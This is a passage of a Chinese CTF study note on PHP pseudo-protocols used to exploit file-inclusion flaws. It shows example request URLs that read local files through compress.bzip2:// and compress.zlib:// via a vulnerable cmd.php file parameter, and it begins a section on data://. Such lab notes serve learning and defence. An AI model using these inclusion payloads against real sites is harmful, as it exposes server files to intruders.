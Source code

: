 【bzip2://协议】

使用方法：

compress.bzip2://file.bz2

测试现象：

http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/CCFAB032E2A740239AA55CEF81DAD9A4e27be24c963.webp)

【zlib://协议】

使用方法：

compress.zlib://file.gz

测试现象：

http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/BAAEAF5B6745478B81BD1BA9366CACF4add35f5aaf3.webp)

【data://协议】

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

PHP.ini：
